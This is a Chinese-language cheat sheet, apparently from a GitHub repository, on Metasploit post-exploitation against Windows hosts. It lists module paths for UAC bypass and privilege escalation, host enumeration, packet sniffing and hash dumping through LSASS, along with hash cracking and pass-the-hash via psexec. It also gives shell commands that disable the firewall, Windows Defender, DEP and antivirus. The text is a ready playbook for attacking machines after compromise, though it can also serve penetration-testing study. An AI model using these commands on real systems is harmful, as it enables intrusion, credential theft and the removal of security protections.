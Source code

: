 <div align='center'><font size='6'><strong>后渗透阶段</strong></font></div>

* 权限提升：权限提升的几种方式

* 信息收集：服务器信息、Hash、防火墙杀毒软件、账号密码

* 内网渗透：端口转发、代理跳板

* 后门植入：永久后门维持权限

  

## 权限提升

* 提高程序运行级别

  * msf模块

    * Exploit/windows/local/ask  （info：查看模块内容    getsystem：得到系统权限）

      需要靶机确定

* UAC绕过

  * msf模块

    * exploit/windows/local/bypassuac

    * exploit/windows/local/bypassuac_injection

    * exploit/windows/local/bypassuac_vbs

      不需要靶机确定

* 利用提权漏洞进行提权

  * Exploit/windows/local/ms14_058_track_popup_menu

## 信息收集

### 信息收集相关

* Msf模块
  * 获取目标机器的分区情况：post/windows/gather/forensics/enum_drives
  * 判断是否为虚拟机：post/windows/gather/checkvm
  * 开起来哪些服务：post/windows/gather/enum_services
  * 安装了哪些应用：post/windows/gather/enum_applications
  * 查看共享：post/windows/gather/enum_shares
  * 获取主机最近的系统操作：post/windows/gather/dumplinks
  * 查看补丁：post/windows/gather/enum_applications
  * scraper脚本（导出注册表相关）
  * Winenum脚本（批量执行信息搜集脚本）

### 数据捕获

* 抓包
  * 加载sniffer：load sniffer
  * 查看网卡信息：sniffer_interface
  * 开启监听：sniffer_start 1
  * 导出数据包：sniffer_dump 1 1.cap
* 解包
  * auxiliary/sniffer/psnuffle

* PassingTheHash
  * windows系统下的hash密码格式为：用户名称:RID:LM-HASH值:NT-HASH值

### 获取Hash值

* Hashdump
* Run post/windows/gather/smart_hashdump
  * 检查权限和系统类型 
  * 检查是否是域控制服务器
  * 从注册表读取hash、注入LSASS进程
  * 如果是08server并具有管理员权限，直接getsystem尝试提权
  * 如果是win7且UAC关闭并具有管理员权限，从注册表读取
  * 03/XP直接getsystem，从注册表获取hash 
* Hash在线破解：http://cracker.offensive-security.com/
* Hash离线破解：findmyhash、LOphtCrack
  * Msf模块：auxiliary/analyze/jtr_crack_fast
* Hash传递：Psexec:exploit/windows/smb/psexec

​        lsass.exe是一个系统进程，用于微软Windows系统的安全机制。用于本地安全和登陆策略。

​        本地安全权限服务控制Windows安全机制，这是一个系统进程，它会随着系统启动而自动启动。管理IP安全策略以及启动 ISAKMP/Oakley (IKE) 和 IP 安全驱动程序等，是一个本地的安全授权服务，并且它会为使用winlogon服务的授权用户生成一个进程。

​		该进程是通过使用授权的包，例如默认的msgina.dll来执行的。如果授权是成功的，lsass就会产生用户的进入令牌，令牌别使用启动初始的shell。

### 关闭防火墙及其查毒软件

* 关闭防火墙
  * Netsh advfirewall set allprofiles state off(管理员及以上权限， 进入shell)
* 关闭Denfender
  * Net stop windefend（进入shell）
* 关闭DEP
  * Bcdedit.exe /set {current} nx AlwaysOff（进入shell） ，  ，
* 关闭杀毒软件
  * Run killav
  * Run poat/windows/manage/killava



















